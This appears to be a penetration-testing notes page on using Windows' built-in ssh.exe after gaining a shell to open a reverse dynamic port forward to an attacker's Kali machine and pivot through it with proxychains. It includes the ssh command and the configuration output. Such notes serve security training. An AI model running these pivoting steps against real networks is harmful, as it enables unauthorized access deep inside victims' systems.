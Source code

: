 ```yaml
---
description: >-
  sss.exe now comes preinstalled on all Windows systems starting with Windows
  10.
---
```


# ssh.exe

We will find:  **scp.exe**, **sftp.exe**, **ssh.exe at: %systemdrive%\Windows\System32\OpenSSH** location by default.

It's worth looking for ssh when popping a shell, though administrators may prevent SSH on their machines.

## Basic Usage - Dynamic Remote Port Forward

### Setup Dynamic Remote Port Forward

```
C:\Users\rdp_admin\.ssh>ssh -N -R 9998 kali@192.168.45.185
```

### Verify Remote Port Forward:

<pre><code><strong>kali@kali$ ss -nltpu
</strong>Netid         State          Recv-Q         Send-Q                 Local Address:Port                    Peer Address:Port         Process         
udp           UNCONN         0              0                            0.0.0.0:33181                        0.0.0.0:*                            
tcp           LISTEN         0              128                        127.0.0.1:9998                         0.0.0.0:*                            
tcp           LISTEN         0              128                          0.0.0.0:22                           0.0.0.0:*                            
tcp           LISTEN         0              128                             [::]:22                              [::]:*                            
tcp           LISTEN         0              128                            [::1]:9998                            [::]:*             
</code></pre>

### Configure Proxychains

```
kali@kali$ tail -f /etc/proxychains4.conf 
#       proxy types: http, socks4, socks5, raw
#         * raw: The traffic is simply forwarded to the proxy without modification.
#        ( auth types supported: "basic"-http  "user/pass"-socks )
#
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks5  127.0.0.1 9998

```
